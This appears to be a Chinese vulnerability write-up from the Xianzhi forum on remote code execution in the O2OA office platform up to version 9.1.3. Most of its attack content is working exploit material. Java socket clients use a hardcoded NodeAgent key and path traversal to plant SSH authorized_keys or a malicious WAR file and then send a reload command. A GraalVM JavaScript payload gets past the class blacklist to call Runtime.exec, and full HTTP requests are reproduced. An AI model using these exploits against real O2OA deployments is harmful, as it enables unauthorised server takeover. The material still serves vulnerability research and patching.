# o2oa<=v9.1.3 前台RCE-先知社区

> **来源**: https://xz.aliyun.com/news/17047  
> **文章ID**: 17047

---

###### 分析权限认证功能

需要了解此系统的路由和权限控制，

全局使用@WebFilter拦截路径进入相应的filter，

如@WebFilter(urlPatterns = "/jaxrs/invoke/\*", asyncSupported = true)



​

其中AnonymousCipherManagerUserJaxrsFilter、CipherManagerJaxrsFilter、CipherManagerUserJaxrsFilter会调用HttpToken的who函数，

验证token是否有效，绕不过，





​

发现存在@WebFilter注释的类都继承了AnonymousCipherManagerUserJaxrsFilter、CipherManagerJaxrsFilter、CipherManagerUserJaxrsFilter三个之中的其中之一，

现在想要找权限绕过是不行的，因为上面三个函数绕不过，只能找未授权接口，

那么只要去找@path中的路径不在@WebFilter中，就说明此接口没有任何防护，



​

找到以下接口为未拦截，不过访问不了，因为接口在api.json或者在describe.json才能访问，因此后面只能找后台漏洞了，

```

secret
/x_program_init/jaxrs/secret/check

restore
/x_program_init/jaxrs/restore/upload


externaldatasources
/x_program_init/jaxrs/externaldatasources/check


storagemappings
 /x_program_center/jaxrs/storagemappings

server
/x_program_init/jaxrs/server/stop
```

###### 漏洞一（前台rce 利用socket）

此处开启的20010端口会接收数据，利用soket传输数据时，

并没有做鉴权，直接将加密数据传输，而且加密秘钥固定在源码中，





​

分析端口的服务端，

NodeAgent类的run函数在监听20010端口，接收客户端传入的数据，此端口没有相应的鉴权措施，

加密的秘钥写在服务端中，并不是随机的，所以可以利用此秘钥，



​

客户端传入syncFile参数，然后将接收的内容生成文件，这里对文件属性没有过滤措施，

因此，我们直接直接将数据加密发送到20010端口，就会达到未授权文件上传的目的，最终getshell，



​

将Main.java放入项目的

```
\o2server\servers\centerServer\work\x_program_center\describe\sources\com\x\program\center
```

目录中，

然后将put路径更改为我们穿越的路径，可以未授权任意文件上传，





​

可以利用文件上传getshell，那么如果部署在linux上时，就可以未授权上传ssh公钥，达到getshel的目的，

Main.java（注意多试几次../），

```
package com.x.program.center;

import java.io.*;
import java.net.Socket;
import java.util.HashMap;
import java.util.Map;
import com.x.base.core.project.tools.*;
import org.apache.commons.lang3.BooleanUtils;
import com.x.base.core.project.config.Config;
import com.x.base.core.project.config.Node;
import com.x.base.core.project.config.Nodes;
import com.x.base.core.project.gson.XGsonBuilder;
import com.x.program.center.core.entity.InstallTypeEnum;


class Main {


    public static byte[] readFileToBytes(String filePath) throws IOException {
        File file = new File(filePath);
        byte[] bytes = new byte[(int) file.length()];

        try (FileInputStream fis = new FileInputStream(file)) {
            int bytesRead = fis.read(bytes);
            if (bytesRead != file.length()) {
                throw new IOException("Could not completely read the file " + file.getName());
            }
        }

        return bytes;
    }


    public static void  main(String[] args) throws Exception {
        Nodes nodes = Config.nodes();
        for (Map.Entry<String, Node> entry : nodes.entrySet()) {
            String node = entry.getKey();
            if (BooleanUtils.isNotFalse(entry.getValue().nodeAgentEnable())) {
                try (Socket socket = new Socket("192.168.91.130", entry.getValue().nodeAgentPort())) {
                    socket.setKeepAlive(true);
                    socket.setSoTimeout(6000);
                    try (DataOutputStream dos = new DataOutputStream(socket.getOutputStream());
                         DataInputStream dis = new DataInputStream(socket.getInputStream())) {
                        Map<String, Object> commandObject = new HashMap<>();
                        if(InstallTypeEnum.CONFIG.getValue().equals("config")){
                            commandObject.put("command", "syncFile:" + "/../../../../../root/.ssh/authorized_keys");
                        }else if(InstallTypeEnum.CUSTOM.getValue().equals("custom")) {
                            commandObject.put("command", "/../../../../../root/.ssh/authorized_keys");
                        }else{
                            return;
                        }
                        commandObject.put("credential", Crypto.rsaEncrypt("o2@", Config.publicKey()));

                        dos.writeUTF(XGsonBuilder.toJson(commandObject));
                        dos.flush();
                        dos.writeUTF("/../../../../../root/.ssh/authorized_keys");
                        dos.flush();

                        String filePath = "/自己的恶意秘钥/authorized_keys";
                        byte[] bytes = readFileToBytes(filePath);

                        try (ByteArrayInputStream bis = new ByteArrayInputStream(bytes)) {
                            byte[] onceBytes = new byte[1024];
                            int length = 0;
                            while ((length = bis.read(onceBytes, 0, onceBytes.length)) != -1) {
                                dos.write(onceBytes, 0, length);
                                dos.flush();
                            }
                        }
                    }
                }catch (Exception e){

                }
            }
        }
    }

}

```

上传公钥到ubuntu服务器上，


使用私钥连接成功，



​

后面又分析了nodeagent，发现我们不仅能未授权任意文件上传，还能未授权执行一些内置命令，

如使用version查看服务器版本，其中存在一个命令ctl -rst <参数>，就能重新加载war包更新web服务，

那么我们可以先利用未授权文件上传漏洞上传恶意war包，然后再未授权使用ctl -rst <参数>去重新加载war包，

就会达到命令执行的效果，

复现如下：

将以下脚本随便放入一个子项目中然后执行，这样我们就可以直接使用其中的函数，懒得自己去定义了，



​

这里用恶意的x\_mind\_assemble\_control.war覆盖了之前的x\_mind\_assemble\_control.war，

```
package com.x.attendance.assemble.control;

import java.io.*;
import java.net.Socket;
import java.util.HashMap;
import java.util.Map;
import com.x.base.core.project.tools.*;
import org.apache.commons.lang3.BooleanUtils;
import com.x.base.core.project.config.Config;
import com.x.base.core.project.config.Node;
import com.x.base.core.project.config.Nodes;
import com.x.base.core.project.gson.XGsonBuilder;
import com.x.program.center.core.entity.InstallTypeEnum;


class Main {


    public static byte[] readFileToBytes(String filePath) throws IOException {
        File file = new File(filePath);
        byte[] bytes = new byte[(int) file.length()];

        try (FileInputStream fis = new FileInputStream(file)) {
            int bytesRead = fis.read(bytes);
            if (bytesRead != file.length()) {
                throw new IOException("Could not completely read the file " + file.getName());
            }
        }

        return bytes;
    }


    public static void  main(String[] args) throws Exception {


        try (Socket socket = new Socket("192.168.91.1", 20010)) {
            socket.setKeepAlive(true);
            socket.setSoTimeout(6000);
            try (DataOutputStream dos = new DataOutputStream(socket.getOutputStream());
                 DataInputStream dis = new DataInputStream(socket.getInputStream())) {
                Map<String, Object> commandObject = new HashMap<>();
                if(InstallTypeEnum.CONFIG.getValue().equals("config")){
                    commandObject.put("command", "syncFile:" + "/store/x_mind_assemble_control.war");
                }
                commandObject.put("credential", Crypto.rsaEncrypt("o2@", "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCWcVZIS57VeOUzi8c01WKvwJK9uRe6hrGTUYmF6J/pI6/UvCbdBWCoErbzsBZOElOH8Sqal3vsNMVLjPYClfoDyYDaUlakP3ldfnXJzAFJVVubF53KadG+fwnh9ZMvxdh7VXVqRL3IQBDwGgzX4rmSK+qkUJjc3OkrNJPB7LLD8QIDAQAB"));

                dos.writeUTF(XGsonBuilder.toJson(commandObject));
                dos.flush();
                dos.writeUTF("/store/x_mind_assemble_control.war");
                dos.flush();

                String filePath = "C:/Users/tangtang/Desktop/x_mind_assemble_control.war";
                byte[] bytes = readFileToBytes(filePath);

                try (ByteArrayInputStream bis = new ByteArrayInputStream(bytes)) {
                    byte[] onceBytes = new byte[1024];
                    int length = 0;
                    while ((length = bis.read(onceBytes, 0, onceBytes.length)) != -1) {
                        dos.write(onceBytes, 0, length);
                        dos.flush();
                    }
                }
            }
        }catch (Exception e){

        }
    }


}

```

​

恶意的war如下，直接在ThisApplication中加入我们想要的命令，然后重新编译打包成x\_mind\_assemble\_control.war，





​

然后使用ctl -rst x\_mind\_assemble\_control命令重新加载x\_mind\_assemble\_control.war，

运行Main\_load，命令执行成功，

```
package com.x.attendance.assemble.control;

import java.io.*;
import java.net.Socket;
import java.util.HashMap;
import java.util.Map;
import com.x.base.core.project.tools.*;
import org.apache.commons.lang3.BooleanUtils;
import com.x.base.core.project.config.Config;
import com.x.base.core.project.config.Node;
import com.x.base.core.project.config.Nodes;
import com.x.base.core.project.gson.XGsonBuilder;
import com.x.program.center.core.entity.InstallTypeEnum;


class Main_load {
    

    public static void  main(String[] args) throws Exception {


        try (Socket socket = new Socket("192.168.91.1", 20010)) {
            socket.setKeepAlive(true);
            socket.setSoTimeout(6000);
            try (DataOutputStream dos = new DataOutputStream(socket.getOutputStream());
                 DataInputStream dis = new DataInputStream(socket.getInputStream())) {
                Map<String, Object> commandObject = new HashMap<>();
                if(InstallTypeEnum.CONFIG.getValue().equals("config")){
                    commandObject.put("command", "command:" + "ctl -rst x_mind_assemble_control");
                }
                commandObject.put("credential", Crypto.rsaEncrypt("o2@", "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCWcVZIS57VeOUzi8c01WKvwJK9uRe6hrGTUYmF6J/pI6/UvCbdBWCoErbzsBZOElOH8Sqal3vsNMVLjPYClfoDyYDaUlakP3ldfnXJzAFJVVubF53KadG+fwnh9ZMvxdh7VXVqRL3IQBDwGgzX4rmSK+qkUJjc3OkrNJPB7LLD8QIDAQAB"));

                dos.writeUTF(XGsonBuilder.toJson(commandObject));
                dos.flush();

            }
        }catch (Exception e){

        }
    }


}

```



​

分析，

利用未授权nodeagent，然后使用syncFile进行文件上传之前已经分析过了，

现在我们分析利用未授权nodeagent，然后使用command命令重新加载war的过程，

nodeagent其中存在execute\_command\_pattern，

接收到的数据如果匹配到command，



​

然后会走到Commands的静态函数中，匹配到ctl命令后，





​

执行action.execute(args)，



​

根据相应命令进入相应函数，





​

最后execute函数根据我们传入服务的名称暂停服务，

加载war资源后使用JarResource.newJarResource(base).copyTo(dir)释放我们恶意的war包到store目录，

然后再使用app.start()开启此服务，

开启此服务时会初始化服务（ThisApplication），最终触发了恶意代码，命令执行成功，





​

为了更好的实战化，我们可以写一个内存马，

。。。可以看我之前写的jetty内存马文章。。。

​

###### 漏洞二（后台rce，利用GraalVM）

在系统配置-安全配置-密码配置处，设置通过脚本自定义初始密码，

然后写入以下js，点击确定，

```
var u = Java.type('java.net.URLClassLoader');r = u.getSystemClassLoader().loadClass("java.lang.Runtime");g = r.getMethod('getRuntime').invoke(null).exec("calc.exe");
```



​

数据包，

```
POST /x_program_center/jaxrs/config/save?v=-4a1e76a HTTP/1.1
Host: 192.168.91.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/json,*/*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Referer: http://192.168.91.1/x_desktop/index.html
Content-Type: application/json; charset=utf-8
Authorization: suuEisd4b6FRkYOGKAUd_KMAAnQ8WlvI-IE4itElyqo
Content-Length: 3662
Origin: http://192.168.91.1
Connection: close
Cookie: x-token=suuEisd4b6FRkYOGKAUd_KMAAnQ8WlvI-IE4itElyqo
Priority: u=1

{"fileName":"person.json","fileContent":"{
\t"captchaLogin": false,
\t"codeLogin": true,
\t"bindLogin": true,
\t"faceLogin": true,
\t"twoFactorLogin": false,
\t"firstLoginModifyPwd": false,
\t"password": "(this.$pwd=function(){var e=Java.type(\"java.net.URLClassLoader\");r=e.getSystemClassLoader().loadClass(\"java.lang.Runtime\"),g=r.getMethod(\"getRuntime\").invoke(null).exec(\"calc.exe\")};; return this.$pwd(); )",
\t"passwordPeriod": 0,
\t"passwordRegex": "^(?=.*[a-z]).{6,30}$",
\t"passwordRegexHint": "6-30位，必须包含小写字母",
\t"register": "disable",
\t"superPermission": true,
\t"tokenCookieHttpOnly": true,
\t"tokenCookieSecure": false,
\t"tokenName": "x-token",
\t"personUnitOrderByAsc": true,
\t"language": "zh-CN",
\t"enableSafeLogout": false,
\t"encryptType": "",
\t"###captchaLogin": "是否启用图片验证码登录,默认值:false.###",
\t"###codeLogin": "是否启用短信验证码登录,默认值:true.###",
\t"###bindLogin": "是否启用扫描二维码登录,默认值:false.###",
\t"###faceLogin": "是否启用刷脸登录,默认值:false.###",
\t"###twoFactorLogin": "是否启用双因素认证登录,默认值:false.###",
\t"###firstLoginModifyPwd": "是否启用首次登陆修改密码,默认值:false###",
\t"###password": "注册初始密码,使用()调用脚本生成初始密码,默认为:(var v = person.getMobile();\\
return v.substring(v.length - 6);)###",
\t"###passwordPeriod": "密码过期时间(天),0表示永不过期,默认值:0.###",
\t"###passwordRegex": "密码校验正则表达式,默认6位以上,包含数字和字母.###",
\t"###passwordRegexHint": "密码校验不通过的提示信息.###",
\t"###register": "是否允许用户自注册,disable:不允许,captcha通过验证码注册,code:通过短信注册,默认值:disable###",
\t"###superPermission": "是否启用超级管理员权限,默认值:true###",
\t"###mobileRegex": "手机号码校验正则表达式,()表示脚本内容,默认值:(^(\\+)?0{0,2}852\\d{8}$)|(^(\\+)?0{0,2}853\\d{8}$)|(^(\\+)?0{0,2}886\\d{9}$)|(^1(3|4|5|7|8|9)\\d{9}$)###",
\t"###failureInterval": "登录限制时间(分钟)###",
\t"###failureCount": "尝试登录次数###",
\t"###tokenExpiredMinutes": "PC或h5端平台认证token时长,分钟###",
\t"###appTokenExpiredMinutes": "app端平台认证token时长,分钟###",
\t"###tokenCookieHttpOnly": "保存token的cookie是否启用httpOnly###",
\t"###tokenCookieSecure": "保存token的cookie是否启用secure，表示仅在https协议才会传输此cookie###",
\t"###tokenName": "使用识别用户的token名称,可自定义,默认为:x-token.###",
\t"###personUnitOrderByAsc": "人员组织排序是否为升序，true为升序(默认)，false为降序###",
\t"###language": "平台语言：zh-CN(中文，默认)、en(英语)###",
\t"###enableSafeLogout": "是否启用安全注销.###",
\t"###encryptType": "加密方式,支持国密:SM4,AES###",
\t"###extension": "扩展设置.###",
\t"extension": {
\t\t"passwordLength": [
\t\t\t6,
\t\t\t30
\t\t],
\t\t"passwordRuleValues": {
\t\t\t"useLowercase": true,
\t\t\t"useNumber": false,
\t\t\t"useUppercase": false,
\t\t\t"useSpecial": false
\t\t},
\t\t"initialPasswordType": "script",
\t\t"password": "var u = Java.type('java.net.URLClassLoader');r = u.getSystemClassLoader().loadClass(\"java.lang.Runtime\");g = r.getMethod('getRuntime').invoke(null).exec(\"calc.exe\");"
\t}
}"}
```

​

然后点击组织管理-个人管理，新增用户，



​

点击保存人员信息，最终命令执行，



​

数据包，

```
POST /x_organization_assemble_control/jaxrs/person?v=-4a1e76a HTTP/1.1
Host: 192.168.91.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/json,*/*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Referer: http://192.168.91.1/x_desktop/index.html
Content-Type: application/json; charset=utf-8
Authorization: suuEisd4b6FRkYOGKAUd_FlYIPOT5U6Y-IE4itElyqo
Content-Length: 424
Origin: http://192.168.91.1
Connection: close
Cookie: x-token=suuEisd4b6FRkYOGKAUd_FlYIPOT5U6Y-IE4itElyqo

{"genderType":"m","signature":"","description":"","unique":"1","orderNumber":"","superior":"","officePhone":"","boardDate":"","birthday":"","employee":"1","password":"","display":"","qq":"","mail":"","weixin":"","weibo":"","mobile":"15412521456","name":"测试","ipAddress":"","controllerList":[],"woPersonAttributeList":[],"woIdentityList":[],"control":{"allowEdit":true,"allowDelete":true},"subjectSecurityClearance":null}
```

​

分析，

PersonAction.java执行execute，



​

execute函数会获取到我们设置的密码规则，





​

然后将js规则传给initPassword，



​

执行evalAsString，



​

最终执行到eval， 创建一个GraalVM上下文，它是一个脚本引擎，这里使用了allowHostClassLoading参数表示允许加载java类，



​

不过实现了allowHostClassLookup::allowClass函数设置了类的黑名单，









​

黑名单类如下：

```
Arrays.asList(Runtime.class.getName(), File.class.getName(), Path.class.getName(),
                    java.lang.ProcessBuilder.class.getName(), FileWriter.class.getName(),
                    java.lang.System.class.getName(), Paths.class.getName(), Files.class.getName(),
                    FileOutputStream.class.getName(), RandomAccessFile.class.getName(), Socket.class.getName(),
                    ServerSocket.class.getName(), ZipFile.class.getName(), ZipInputStream.class.getName(),
                    ZipOutputStream.class.getName(), ScriptEngine.class.getName(), ScriptEngineManager.class.getName(),
                    URL.class.getName(), URI.class.getName(), Class.class.getName()));
```

​

那么我们利用java.net.URLClassLoader去加载本地资源，然后利用反射最终getshell，

payload：

```
var u = Java.type('java.net.URLClassLoader');r = u.getSystemClassLoader().loadClass("java.lang.Runtime");g = r.getMethod('getRuntime').invoke(null).exec("calc.exe");
```

​

最终调用链如下，



​

关于执行js的位置还有几个地方，应该是都可以执行成功的

以下是我找到的另外两处利用js命令执行的地方，

第一处：

点击服务管理，



​

点击代码配置-新建代理，



​

var u = Java.type('java.net.URLClassLoader');r = u.getSystemClassLoader().loadClass("java.lang.Runtime");g = r.getMethod('getRuntime').invoke(null).exec("calc.exe");

然后点击保存，这样就可以利用定时任务执行js，最终命令执行，



​

等待几秒钟，命令执行成功，



​

第二处：

数据中心管理--新建应用，



​

然后编辑此应用，点击查询配置--新建，最新原生sql脚本，最终命令执行，





###### 可能存在的漏洞点（sql注入未复现）

这里我搭建时直接使用的是h2数据库，实际环境中应该不是，到时候就根据使用的数据库去复现是否能getshell，



在这里可以配置jdbc，不过需要重启服务，就有点鸡肋了，



######
